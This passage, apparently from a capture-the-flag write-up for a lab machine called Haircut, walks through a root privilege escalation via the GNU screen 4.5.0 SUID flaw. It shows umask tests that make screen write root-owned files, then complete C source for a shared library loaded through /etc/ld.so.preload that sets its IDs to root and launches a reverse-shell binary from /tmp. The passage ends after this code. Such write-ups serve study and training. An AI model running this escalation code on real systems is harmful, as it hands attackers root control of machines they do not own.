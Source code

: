 Testing the vulnerability seems to only be able to create files and add content to them as root if the `umask` value allows for it. However, this won't work with `cron` because the files in `/etc/cron.d/` cannot be writable by anyone else other than root...

- https://www.cyberciti.biz/tips/understanding-linux-unix-umask-value-usage.html

```bash
# change the default user file creation mask to allow anything
umask 000
# test creation, this returns a file with the content "TEST" :)
# -rw-rw-rw- 1 root www-data 6 Sep 24 19:16 test1
screen-4.5.0 -D -m -L /tmp/test1 echo TEST
# change the default user file creation mask to allow global read only
umask 022
# test creation, this returns an empty file :(
# -rw-r--r-- 1 root www-data 0 Sep 24 19:17 test2
screen-4.5.0 -D -m -L /tmp/test2 echo TEST
```

So this vulnerability cannot be used to make a custom `cron` task. Also, when trying to walk through the steps of exploit 41154 causes an error with `gcc`:

![gcc](./haircut/gcc.png)

This error is caused by a missing package, which requires root privileges to install... Next step is to cross-compile the code using Kali. From the target Linux Kernel verison enumeration, the CPU architecture is x86_64 which matches the Kali version:

- https://stackoverflow.com/questions/11912878/gcc-error-gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory

![kali_kernel](./haircut/kali_kernel.png)

First create the shared library object that will be ran by `screen` from the `/etc/ld.so.preload` file. This shared library will fork a new child process and use the SUID of the parent (`screen`) to spawn a reverse shell as root:

```c
// file saved as bubba.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

__attribute__ ((__constructor__))
void bubba(void){
  printf("[*] removing /etc/ld.so.preload ...\n");
  unlink("/etc/ld.so.preload");
  printf("[*] spawning root shell...\n");
  if (!fork()) {
    // use SUID permissions of parent to elevate to root
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    // spawn reverse shell
    execvp("/tmp/bubba.root.elf", NULL);
  }
}
```

